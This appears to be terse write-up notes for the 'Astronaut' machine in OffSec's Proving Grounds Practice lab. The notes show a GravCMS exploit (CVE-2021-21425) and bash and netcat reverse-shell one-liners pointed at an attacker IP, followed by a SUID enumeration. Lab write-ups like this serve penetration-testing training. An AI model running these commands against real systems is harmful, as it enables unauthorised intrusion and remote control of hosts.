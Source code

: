 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Astronaut"
date:   2024-07-24 19:40:31 -0400
categories: oscp proving-grounds TJNull
---
```



192.168.174.12
 
============================================================================================================================
port 80

http://192.168.174.12/grav-admin/


└─$ searchsploit -m 49973.py 
  Exploit: GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)
      URL: https://www.exploit-db.com/exploits/49973
     Path: /usr/share/exploitdb/exploits/php/webapps/49973.py
    Codes: N/A
 Verified: True
File Type: ASCII text, with very long lines (429)
Copied to: /home/kali/offsec/pg-practice/Astronaut/49973.py


echo -ne "bash -i >& /dev/tcp/192.168.45.213/4444 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxMy80NDQ0IDA+JjE=



trying https://github.com/CsEnox/CVE-2021-21425

python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.213 4444 >/tmp/f' -t http://192.168.174.12/grav-admin

=====================================================================================================
alex


$ find / -perm -u=s 2>/dev/null | grep -v '^/proc|^/run|^/sys|^/snap'
/snap/core20/1852/usr/bin/chfn
/snap/core20/1852/usr/bin/chsh
/snap/core20/1852/usr/bin/gpasswd
/snap/core20/1852/usr/bin/mount
/snap/core20/1852/usr/bin/newgrp
/snap/core20/1852/usr/bin/passwd
/snap/core20/1852/usr/bin/su
/snap/core20/1852/usr/bin/sudo
/snap/core20/1852/usr/bin/umount
/snap/core20/1852/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1852/usr/lib/openssh/ssh-keysign
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/18596/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd




